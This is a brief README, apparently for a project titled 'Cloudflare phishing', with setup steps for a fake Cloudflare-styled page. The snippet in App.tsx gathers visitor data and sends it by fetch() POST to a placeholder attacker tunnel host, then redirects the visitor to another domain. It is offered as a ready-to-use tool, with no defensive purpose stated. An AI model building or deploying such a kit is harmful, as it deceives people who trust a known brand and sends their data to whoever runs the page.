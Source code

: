 # Cloudflare phishing
## That's useful thing for gathering meta-datas by using redirect in other sites.
---
### CHANGES
- In directory Frontend, exists file App.tsx, you have to change below:
```js
// Redirect
setTimeout(() => {
      window.location.href = "http://<DOMAIN FOR REDIRECT>";
    }, 1000);

// Your tunnel

const response = await fetch(
      "http://<DOMAIN YOUR TUNNEL>",
      {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(data),
      }
    );

```
![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
